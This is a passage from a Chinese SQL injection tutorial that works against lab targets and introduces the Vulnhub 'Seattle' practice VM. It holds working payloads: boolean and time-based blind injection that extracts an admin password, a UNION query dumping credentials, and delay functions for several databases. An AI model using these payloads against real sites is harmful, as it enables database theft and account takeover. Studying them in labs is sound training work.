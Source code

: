 ``````
http://192.168.123.25:65412/?id=2%20and%20substr((select%20password%20from%20users%20where%20name=%27admin%27),2,1)=%27e%27
密码第一位7第二位e
通过之前做的python脚本跑出来密码是7en8aiDoh!
```

（2）Blind SQL Injection (time)

```
http://192.168.123.25:65412/?id=1 and (SELECT (CASE WHEN (SUBSTR((SELECT password FROM users WHERE name='admin'),2,1)='e') THEN (LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(300000000))))) ELSE 0 END))
```

```
这个漏洞环境用到了 SQLITE3 中的 CASE 窗口函数与 RANDOMBLOB 来实现的基于时间的盲注。 
MSQL: sleep(2) 
MSSQL: WAITFOR DELAY '0:0:2'
```

（3）UNION SQL Injection

基于联合查询注入: 使用`UNION`运算符用于SQL注入，`UNION`运算符是关联两个表的查询结果。攻击者故意伪造的恶意的查询并加入到原始查询中, 伪造的查询结果将被合并到原始查询的结果返回，攻击者会获得其他表的信息。

```
http://192.168.123.25:65412/?id=2 UNION ALL SELECT NULL, NULL, NULL, (SELECT id||','||username||','||password FROM users WHERE username='admin')
```



# 7. 真实靶场演练
这里我们采用Vulnhub靶场进行演练。
## 7.1 Vulnhub 简介
Vulnhub是一个提供各种漏洞环境的靶场平台，供安全爱好者学习渗透使用，大部分环境是做好的虚拟机镜像文件，镜像预先设计了多种漏洞，需要使用VMware或者VirtualBox运行。每个镜像会有破解的目标。
## 7.2 Vulnhub 安装

> - 下载(https://www.gracefulsecurity.com/Seattle-0.0.3.7z)

![1559804239019](assets/1559804239019.png)

## 7.3 靶场漏洞介绍

Graceful的VulnVM是在虚拟机上运行的Web应用程序，它旨在模拟一个简单的电子商务风格网站，该网站特意容易受到Web应用程序中常见的许多众所周知的安全问题的影响。这实际上是该项目的预发布预览版，但它确实具有实用性，但我计划在不久的将来对此进行大量工作。

该计划最终使应用程序容易受到大量问题的影响，选择不同的过滤器处于不同的困难，以便测试人员能够更好地检测和利用应用程序可以通过常见的开发方法加强的问题，以便测试人员能够更广泛的经验。

第一批过滤器现已实施！该应用程序现在支持“级别”，其中级别1不包括用户输入的实际过滤，级别2包括针对每个易受攻击的功能的简单过滤器。

## 7.4 靶场实战演示

### 7.4.1 第一个盲注
在products.php页面存在盲注，通过测试发现是数字型盲注

```
http://10.1.0.239/products.php?type=1%20and%201=1  能正常显示
http://10.1.0.239/products.php?type=1%20and%201=2  不能正常显示
```

构造语句爆破数据库名，使用之前的python脚本进行爆破。

```
http://10.1.0.239/products.php?type=1%20and%20mid(database(),1,1)=%27D%27
``````